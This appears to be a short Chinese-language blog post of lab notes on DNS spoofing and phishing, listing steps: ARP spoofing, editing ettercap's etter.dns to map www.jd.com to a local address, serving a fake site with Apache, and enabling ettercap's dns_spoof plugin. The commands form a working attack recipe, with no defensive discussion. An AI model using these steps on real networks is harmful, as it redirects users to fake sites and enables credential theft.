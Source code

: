 ```yaml
---
layout: post
title: DNS欺骗与钓鱼网站
date: 2020-09-10
categories:
- security
---
```

1.ARP欺骗攻击<br>

2.伪装DNS服务器(正向解析)<br>
* vim /etc/ettercap/etter.dns`
* www.jd.com A 10.1.1.2`
* A 10.1.1.2`
* www.jd.com PTR 10.1.1.2`
* PTR 10.1.1.2`

3.开Apache发布一个虚假的钓鱼网站<br>
systemctl start apache2<br>
netstat -antpl<br>
cd /var/www/html/<br>

4.ettercap<br>
add to target<br>
Plugins=>dns_spoof<br>
